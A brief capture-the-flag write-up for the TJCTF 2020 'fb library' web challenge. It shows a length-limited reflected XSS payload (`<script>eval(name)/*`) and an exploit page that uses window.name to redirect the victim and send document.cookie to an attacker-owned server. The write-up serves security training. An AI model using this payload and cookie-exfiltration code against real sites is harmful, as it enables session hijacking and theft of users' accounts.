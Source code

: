 # TJCTF 2020 - fb library

The fb library challenge's application is vulnerable to reflected XSS through search queries at `https://fb_library.tjctf.org/search?q={xss}`. However, the payload has an 18 byte restriction on it as the application truncates queries longer than 18 bytes and appends `...` to them before writing to the page.

So, as `window.name` is attacker-controlled, we came up with `<script>eval(name)/*` as the payload. Thankfully, the CSP whitelisted `eval`.

All we did was simply create the following page to create an exploit page containing something along the lines of:

```html
<script>
var payload = 'window.location = "https://ourwebserver.com/exfil?cookies=" + document.cookie;';
window.open('https://fb_library.tjctf.org/search?q=%3Cscript%3Eeval(name)/*', payload);
</script>
```

...where `ourwebserver.com` is a domain we own; the CSP prevented all remote resource loading, but we can just redirect since we have JS code execution.

flags!!!!!!
